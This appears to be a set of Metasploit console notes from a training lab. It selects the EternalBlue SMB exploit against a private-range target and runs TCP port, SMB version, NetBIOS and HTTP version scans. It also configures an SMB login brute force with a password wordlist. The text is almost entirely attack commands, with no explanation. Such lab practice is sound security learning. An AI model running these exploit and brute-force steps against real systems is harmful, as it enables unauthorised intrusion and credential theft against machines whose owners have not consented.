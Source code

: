 # select exploit

use exploit/windows/smb/ms17_010_eternalblue

# check

show payloads

# set

setg rhosts 10.10.148.128
use auxiliary/scanner/portscan/tcp
run

search smb_version
use auxiliary/scanner/smb/smb_version
run

search netbios
use auxiliary/scanner/netbios/nbname
run

search http_version
show options
setg rport 8000
use auxiliary/scanner/http/http_version
run

search smb_login
show options
set rport 445
setg SMBUser testuser
setg PASS_FILE /usr/share/wordlists/MetasploitRoom/MetasploitWordlist.txt
run
